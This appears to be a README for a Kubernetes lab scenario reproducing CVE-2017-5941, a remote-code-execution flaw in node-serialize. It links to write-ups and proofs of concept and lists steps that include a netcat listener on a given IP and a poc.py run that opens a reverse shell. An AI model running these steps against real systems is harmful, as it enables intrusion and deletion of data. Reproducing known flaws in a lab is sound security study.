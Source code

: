 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Steps to Reproduce

1- `minikube start` \
2- `kubectl apply -f scenario-1-server.yaml` \
3- Forward port `kubectl port-forward pods/scenario-1-server-deployment-c9b7c56cf-ggvgm 4242:4242` \
4- Listen on port `1234` and your ip for TCP connections like `nc -l 144.122.139.40 1234` \
5- Run poc.py with your ip `./poc.py 144.122.139.40` \
6- Attacker now can view and delete anything they want.
